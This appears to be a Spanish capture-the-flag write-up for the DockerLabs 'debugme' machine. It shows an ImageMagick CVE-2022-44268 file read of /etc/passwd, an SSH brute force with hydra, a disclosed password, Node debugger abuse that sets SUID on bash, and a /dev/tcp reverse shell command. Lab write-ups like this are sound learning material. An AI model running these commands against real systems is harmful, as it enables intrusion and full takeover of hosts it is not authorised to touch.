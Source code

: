 nmap:  443, 80, 22

![image](https://github.com/user-attachments/assets/49f75831-c32a-4554-9753-b7c610099ee0)


---
entramos a la pagina principal y nos da esto:

![image](https://github.com/user-attachments/assets/7e0cb7f2-b4e8-47a6-8a08-10226e7e6d2c)


hay una subida de imagen o pdf y encontré este exploit que roba metadatos: https://github.com/voidz0r/CVE-2022-44268

seguimos los pasos y subimos la imagen 1200x1200

![image](https://github.com/user-attachments/assets/1fa9aaf9-cfe5-4db4-b69d-23a73cd077bf)


después guardamos la foto desde la pagina subida y al guardarla nos dará muchos números.

![image](https://github.com/user-attachments/assets/a2472f55-bf63-499f-a542-2beb191ae383)


lanzamos este comando con el numero dentro de los ""

>python3 -c 'print(bytes.fromhex("con el numero que nos dio"))'

y al final dará:

![image](https://github.com/user-attachments/assets/a1940997-6a1a-4eb4-85b4-b3c09857421c)


y nos dará el listado de "/etc/passwd" con un usuario llamado "lenam"

hacemos fuerza bruta

     - hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

nos da la contraseña: loverboy
![[dockerlabs/dificil/debugme/fuerza bruta.png]]
dentro al hacer sudo -l aparece: "kill"
![[kill.png]]
al hacer un "ps aux" vemos que en el PID 53 se ejecuta un "index.js"
![[codigojs.png]]

buscamos en: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse

y vemos que podemos escalar con: kill -s SIGUSR1 nodejs-ps
![[ejecucion 1.png]]

que quedaría:  sudo kill -s SIGUSR1 49 (o según se ejecute en este caso 49)
ahora si ejecutamos: netstat -atunop vemos que se reinicia ya hora esta habitado el puerto 9229
![[nuevopuerto.png]]

nos conectamos por la IP y puerto que da:  node inspect 127.0.0.1:9229

dentro del debug ejecutamos: 

    - exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")

ahora salimos y ejecutamos el bash -p

![[dockerlabs/dificil/debugme/root.png]]

pero no somos root absoluto, modificamos el código para una reverse shell

    - exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")

![[root absolute.png]]

y somos root!
